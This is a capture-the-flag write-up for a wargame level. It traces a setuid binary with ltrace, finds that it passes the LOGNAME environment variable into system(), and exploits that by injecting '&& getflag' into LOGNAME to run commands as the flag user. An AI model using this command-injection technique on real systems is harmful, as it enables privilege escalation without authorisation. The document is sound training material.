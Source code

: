 # Level 07

## Initial Context

- A single file: `level07`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Executing `level07` seems to only display `level07`.

```bash
$ ./level07
level07
$ ./level07 hello
level07
$ ./level07 hello world
level07
```

Using `ltrace` to trace system calls, we can learn a little bit more. It seems that it print the `LOGNAME` environment variable.

```bash
$ ltrace ./level07
...
getenv("LOGNAME") = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07") = 0
...
```

Changing the value can confirm it:

```bash
$ LOGNAME=hello ltrace ./level07
...
getenv("LOGNAME") = "hello"
asprintf(0xbffff744, 0x8048688, 0xbffff917, 0xb7e5ee55, 0xb7fed280) = 16
system("/bin/echo hello") = 0
...
```

### Exploiting

If we can execute arbitrary command, we will be able to get the flag! Maybe bash's AND (`&&`) operator?

```bash
$ LOGNAME="hello && id" ltrace ./level07
getenv("LOGNAME") = "hello && id"
asprintf(0xbffff734, 0x8048688, 0xbffff911, 0xb7e5ee55, 0xb7fed280) = 22
system("/bin/echo hello && id") = 0
hello
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
```

Perfect! We should be able to get the flag:

```bash
$ LOGNAME="hello && getflag" ./level07
hello
Check flag.Here is your token : ....
```